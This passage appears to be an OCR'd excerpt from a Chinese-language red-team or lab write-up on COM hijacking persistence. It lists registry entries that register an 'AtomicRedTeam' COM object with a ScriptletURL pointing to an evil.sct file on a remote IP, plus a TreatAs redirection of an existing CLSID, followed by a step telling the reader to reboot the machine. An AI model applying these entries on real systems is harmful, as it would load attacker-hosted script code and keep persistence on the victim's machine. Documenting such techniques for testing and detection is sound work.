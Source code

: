 "ThreadingModel"="Apartment"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{00000001-0000-0000-0000-0000FEEDACDC}\\ProgID]

\@="AtomicRedTeam.1.00"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{00000001-0000-0000-0000-0000FEEDACDC}\\ScriptletURL]

\@="http://10.95.14.216:8000/evil.sct"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{00000001-0000-0000-0000-0000FEEDACDC}\\VersionIndependentProgID]

\@="AtomicRedTeam"

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{06DA0625-9701-43DA-BFD7-FBEEA2180A1E}]

[HKEY_CURRENT_USER\\SOFTWARE\\Classes\\CLSID\\{06DA0625-9701-43DA-BFD7-FBEEA2180A1E}\\TreatAs]

\@="{00000001-0000-0000-0000-0000FEEDACDC}"

![](media/8d0000060cf127a0d8e0409df62adb93.png)

![](media/a0aef6f8016701099fe074c41e4a2e71.png)

重启机器:

![](media/7f4573f69a7e8a7ef49d45c48fbecc90.png)
